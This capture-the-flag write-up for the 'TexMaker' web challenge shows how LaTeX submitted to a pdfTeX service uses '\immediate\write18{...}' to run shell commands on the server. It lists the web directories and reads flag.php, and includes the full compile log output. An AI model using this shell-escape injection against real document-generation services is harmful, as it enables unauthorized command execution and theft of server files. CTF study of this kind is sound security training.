

# Writeup for TexMaker (WEB90) (90)

> Solves: 183
> Description: Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.
> Service: https://texmaker.ctf.internetwache.org
  
We have a web interface for creating PDF files, which use pdfTeX.



In TeX we can use operation `\immediate\write18{YOUR_OWN_SHELL_COMMAND}` means, send `YOUR_OWN_SHELL_COMMAND` to the operating system for execution now. 

We tried `\immediate\write18{ls}` and had nice result in log:

```
LOG:
This is pdfTeX, Version 3.14159265-2.6-1.40.15 (TeX Live 2015/dev/Debian) (preloaded format=pdflatex)
 \write18 enabled.
entering extended mode
(./27bc8a015bd85914576a8f8a18608474.tex
LaTeX2e <2014/05/01>
Babel <3.9l> and hyphenation patterns for 2 languages loaded.
(/usr/share/texlive/texmf-dist/tex/latex/base/article.cls
Document Class: article 2014/09/29 v1.4h Standard LaTeX document class
(/usr/share/texlive/texmf-dist/tex/latex/base/size10.clo))
(/usr/share/texlive/texmf-dist/tex/latex/base/inputenc.sty
(/usr/share/texlive/texmf-dist/tex/latex/base/latin1.def))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsmath.sty
For additional information on amsmath, use the `?' option.
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amstext.sty
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsgen.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsbsy.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsopn.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amsfonts.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amssymb.sty)
(/usr/share/texlive/texmf-dist/tex/latex/graphics/graphicx.sty
(/usr/share/texlive/texmf-dist/tex/latex/graphics/keyval.sty)
(/usr/share/texlive/texmf-dist/tex/latex/graphics/graphics.sty
(/usr/share/texlive/texmf-dist/tex/latex/graphics/trig.sty)
(/usr/share/texlive/texmf-dist/tex/latex/latexconfig/graphics.cfg)
(/usr/share/texlive/texmf-dist/tex/latex/pdftex-def/pdftex.def
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/infwarerr.sty)
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ltxcmds.sty))))
No file 27bc8a015bd85914576a8f8a18608474.aux.
(/usr/share/texlive/texmf-dist/tex/context/base/supp-pdf.mkii
[Loading MPS to PDF converter (version 2006.09.02).]
) (/usr/share/texlive/texmf-dist/tex/generic/oberdiek/pdftexcmds.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ifluatex.sty)
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/ifpdf.sty))
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/epstopdf-base.sty
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/grfext.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/kvdefinekeys.sty))
(/usr/share/texlive/texmf-dist/tex/latex/oberdiek/kvoptions.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/kvsetkeys.sty
(/usr/share/texlive/texmf-dist/tex/generic/oberdiek/etexcmds.sty)))
(/usr/share/texlive/texmf-dist/tex/latex/latexconfig/epstopdf-sys.cfg))backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
www

(./27bc8a015bd85914576a8f8a18608474.aux) )
No pages of output.
Transcript written on 27bc8a015bd85914576a8f8a18608474.log.
```

So we executed `\immediate\write18{ls /var/www/}`

returned inside log:
```
0ldsk00lblog.ctf.internetwache.org
mess-of-hash.ctf.internetwache.org
procrastination.ctf.internetwache.org
replace-with-grace.ctf.internetwache.org
texmaker.ctf.internetwache.org
the-secret-store.ctf.internetwache.org
```

`\immediate\write18{ls /var/www/texmaker.ctf.internetwache.org/}`
returned 
```
ajax.php
assets
cleanpdfdir.sh
compile
config.php
config.php.sample
flag.php
index.php
pdf
templates
```

And finally `\immediate\write18{cat /var/www/texmaker.ctf.internetwache.org/flag.php}` returned flag